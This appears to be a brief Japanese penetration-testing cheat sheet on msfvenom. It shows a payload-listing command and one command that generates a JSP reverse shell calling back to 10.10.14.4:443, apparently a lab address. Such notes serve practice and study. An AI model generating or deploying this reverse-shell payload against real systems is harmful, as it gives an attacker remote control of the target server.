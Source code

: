 # # MFSVENOM
## ## Payloadを探す
```zsh
msfvenom --list payload # いろいろなペイロードが表示される。
msfvenom --list payload # こんな感じで使用できる。
```

## ## 作成する
```zsh
msfvenom --payload java/jsp_shell_reverse_tcp --format raw --out shell.jsp LHOST=10.10.14.4 LPORT=443
```

# # Web Tool
